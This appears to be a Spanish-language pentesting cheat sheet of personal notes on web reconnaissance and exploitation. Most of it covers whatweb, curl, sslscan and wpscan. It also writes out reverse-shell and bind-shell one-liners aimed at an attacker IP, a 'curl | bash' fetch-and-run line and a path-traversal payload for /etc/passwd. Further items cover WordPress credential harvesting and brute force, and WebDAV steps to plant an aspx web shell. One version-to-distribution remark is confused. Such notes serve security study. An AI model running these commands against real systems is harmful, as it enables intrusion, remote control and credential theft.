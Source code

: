 # HTTP ❮❯

Tags: #Web #Puerto #Reconocimiento #Escaneo #CMS #Comandos 

## Codigos de estado 
200 -> OK
301 -> Moved Permanently (Follow Redirect)
401 -> Unauthorized
403 -> Forbidden
404 -> Not Found

Si la versión del servidor HTTP es “**Apache httpd 2.4.46 o HTTP nginx 1.18.0**“, podemos determinar que el sistema está ejecutando una distribución de Ubuntu. El número de versión “**httpd 2.4.46 o nginx 1.18.0**” se refiere a la revisión específica del paquete de SSH en esa distribución de Ubuntu. A partir de esto, podemos identificar el **codename** de la distribución de Ubuntu, que en este caso sería “**Focal**” para Ubuntu 20.04.
Todas estas búsquedas las aplicamos sobre el siguiente dominio:
-   **Launchpad**: [https://launchpad.net/ubuntu](https://launchpad.net/ubuntu)

80 - Este puerto es el que se usa para la navegación web de forma no segura HTTP. 

### Rutas tipicas
**/var/www/html** Ruta tipica de Apache o Nginx
**/opt/blog/server.js** Ruta por default de Node.js
**/wp-admin.php** Es la ruta del panel de autenticacion de WordPress
**/wp-login.php** Es la ruta del panel de autenticacion de WordPress


❯ **Ctrl + u** Para ver el codigo fuente de la pagina web
❯ **Ctrl + r** Recargar la pagina web
❯ **Ctrl + Shift + c** Para inspeccionar el codigo 

❯ **whatweb ❮http://IP❯**  -> Nos dara una breve descripcion del gestor de contenidos del puerto 80
- Mirar la jQuery
- Servidor Web
❯ **whatweb ❮http://IP:PORT❯** -> Nos dara una breve descripcion del gestor de contenidos por un puerto especifico
❯ **whatweb \http://❮IP❯ -v**  v=Miramos las cabeceras de la pagina web, las cuales aveces nos revelan cosas

❯ **curl ❮IP❯ | bash** Lo que hace Curl es obtener un **index.html** del servidor y despues con el bash haremos que nos interprete la data en bash
❯ **wget \http://❮IP❯/❮File❯** Para poder cargar o descargar un archivo especifico desde una IP


* Este comando lo ejecutamos desde la pagina web para hacer una **ReverShell** : 
1) Cuando tenemos Netcat 
2) Cuando no tenemos Netcat
```bash 
❯ nc -e /bin/bash IP-Atacante 443

❯ bash -i >& /dev/tcp/IP-Atacante/443 0>&1
```


* Este comando lo ejecutamos desde la pagina web para hacer una **BindShell** :
```bash
❯ nc -nlvp -e 443 -e /bin/bash
```


* Este comando lo ejecutamos desde la pagina web para hacer una **ForwardShell** :
```bash
❯ 
```




# HTTPS ❮❯
443 - Este puerto es también para la navegación web, pero en este caso usa el protocolo HTTPS que es seguro y utiliza el protocolo TLS por debajo.

❯ **openssl s_client -connect ❮IP❯:443** Para conectarnos al openssl e inspeccionar el certificado del puerto 443
❯ **sslscan ❮IP❯:8443** Te da informacion del ssl de la maquina y si detecta alguna vulnerabilidad te la representa, podemos colocar el puerto si no es el comun 443













- **/wp-json/wp/v2/users/** Reporta usuarios validos en la pagina de WordPress en formato Json
- **cat wp-config.php | less** Este archivo suele disponer de credenciales de acceso a la base de datos, file que se encuentra dentro de la maquina victimas y lo miramos en formato de pagina
- Comando -> **wpscan --url <http://URL/>** Detecta vulnerabilidades, pluggins en un wordPress
- Comando -> **wpscan --url <http://URL/> --enumerate u** Enumeras usuarios que puedan existir en un WordPress
- Comando -> **wpscan --url <http://URL/> -U < USER> -P <Dicc.txt>** Aplicas fuerza bruta, en donde colocas el usuario y en este caso el diccionario de las passwd 
	Tmabien podemos usar **wpseku github security scanner**  o **wordpressscan github**, pero la 'mejor' es wpseku 
- Dentro de un WP podemos editar ese template y colocar un comando. Appearance ->Editor -> 404 Template

- /usr/share/davtest/backdoors/**aspx_cmd.aspx**   Ejecutable que al momento de ejecutarse en una pagina Web, nos dara una WebShell

- Comando -> **curl http://< IP> -v** Haremos que nos ejecute un curl para poder ver la cabeceras de la pagina solicitada y su data


- Comando -> **curl -s -X GET "http://< IP>" -I** Miramos las cabeceras de la pagina web (I=i mayuscula,s=silence)
- Comando -> **curl -s -X GET http://< IP>/?p=404** Apuntas a una ruta 404 y haces la peticion
- Comando -> **curl -s -X PUT http://< IP>/file.txt -d @file.txt** Para subir un archivo a una pagina web con un comando a la url que lo indicaremos con el @, este archivo debe tener una extencion especifica y permitida por el webdav. El example.txt en la url es el que debe de tener una extencion permitida.
En este caso para ver mejor el contenido de arriba por Burpsuite, aplicamos el siguiente comando
- Comando -> **curl -s -X POST http://< IP>/fielRead.php -d 'file=./.list/....//....//....//....//etc/passwd'** Miramos la resuesta por POST de la pagina web, y a nivel de (d=data) le pasamos eso 
	- fileRead.php -> lo buscamos en el BurpSuite en la cabecera de POST
- Comando -> **curl -s -X MOVE -H “Destination:http://< URL>/cmd.aspx” http://< URL>/cmd.txt** Moveremos el archivo que subimos con extension .txt ya que no puede ser interpretado y le aplicaremos un renombramiento colocandole su extrension .aspx y lo haremos con la cabecera destination. Esto no dara una terminal en la web. (s=silence)
